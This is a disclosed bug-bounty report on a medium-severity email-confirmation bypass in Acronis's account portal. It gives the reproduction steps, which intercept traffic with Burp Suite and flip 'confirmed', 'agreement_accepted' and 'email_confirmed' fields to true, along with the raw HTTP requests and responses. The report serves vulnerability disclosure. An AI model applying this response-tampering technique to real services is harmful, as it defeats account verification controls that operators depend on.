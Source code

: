 # Account Confirmation bypass leads to acess some fucntionality 

## Report Details
- **Report ID**: 1121132
- **URL**: https://hackerone.com/reports/1121132
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-03-09T11:21:02.046Z
- **Disclosed**: 2021-03-30T09:21:45.768Z

## Reporter
- **Username**: atikna
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
STEPS:
1. Go to the URL https://account.acronis.com/#/auth/signup
2. Create a Business Account  
3. Intercept the request using burp suite 
4. Now intercept the response of given HTTP REQUEST below 
5. Change the field ```"confirmed":false ``` to ``` true ``` 
6. Even you can bypass Accept term condition by changing the field ``` "agreement_accepted":false ``` to ``` true ```
7. Forward the response and go to profile 
8. Under Profile ``` add contact details ``` and ``` billing details ```
9. Now logout and again login with the credentials you not able to that functionality 
10. But when you confirmed your email 
11. You will see that Details attacker entered bypassing email confirmation


HTTP REQUEST TO bypass email confirmation
======

```
GET /v2/account HTTP/1.1
Host: account.acronis.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/plain, */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: https://account.acronis.com/
Cookie:

```

HTTP RESPONSE 
====
```
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 09 Mar 2021 10:28:36 GMT
Content-Type: application/json
Connection: close
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
pragma: no-cache
expires: -1
X-RateLimit-Limit: 100
X-RateLimit-Remaining: 99
Access-Control-Allow-Credentials: false
Access-Control-Allow-Headers: Accept, Accept-Encoding, Accept-Language, Authorization, Cache-Control, Connection, DNT, Keep-Alive, If-Modified-Since, Origin, Save-Data, User-Agent, X-Requested-With, Content-Type
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS
p3p: CP=IDC DSP COR ADM DEVi TAIi PSA PSD IVAi IVDi CONi HIS OUR IND CNT
X-Frame-Options: SAMEORIGIN
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
X-XSS-Protection: 1; mode=block
Content-Length: 847

{"account":{"id":,"type":"enterprise","email":"dams0303+03@wearehackerone.com","title":" ","first":"test","last":"test","middle":"","company_name":"hackerone","occupation":"","industry":"","phone":"9971193792","fax":"","country":"IN","subscription_language":"en-GB","zip":"","state_province":"","city":"","address1":"","address2":"","updated_at":1615284826,"created_at":1615284826,"subscription_home":false,"subscription_corporate":false,"subscription_developer":false,"subscription_beta":false,"blacklist":false,"auto_gen_pwd":false,"confirmed":false,"dr_region_supported":true,"dr_trial_used":false,"beta_user":false,"agreement_accepted":true,"up_to_date":true,"requires_data":true,"tenants":{"enterprise":""},"contacts_supported":true,"company_type":"Reseller","company_size":"1-10","contacts":[]}}

```


WHILE Adding contact details follow the steps
====
1. Intercept the request 
2. change the ``` "email_confirmed":false ``` to ``` true ```

HTTP REQUEST TO Add contact details
======

```
PUT /v2/contacts/eff03f0f-10f5-4c17-9360-a400a0068cff HTTP/1.1
Host: account.acronis.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/plain, */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Content-Length: 330
Origin: https://account.acronis.com
Connection: close
Referer: https://account.acronis.com/
Cookie: 

{"id":"eff03f0f-10f5-4c17-9360-a400a0068cff","types":["technical"],"email":"dams0303+03@wearehackerone.com","address1":"","address2":"","country":"","state":"","city":"","zipcode":"","phone":"9971193792","firstname":"Test","lastname":"Test","title":"test","website":"","industry":"","organization_size":"","email_confirmed":false}

```

## Impact

Attacker is able to bypass the email confirmation to use some functionality which is only be used after email confirmation

## Attachments
No attachments
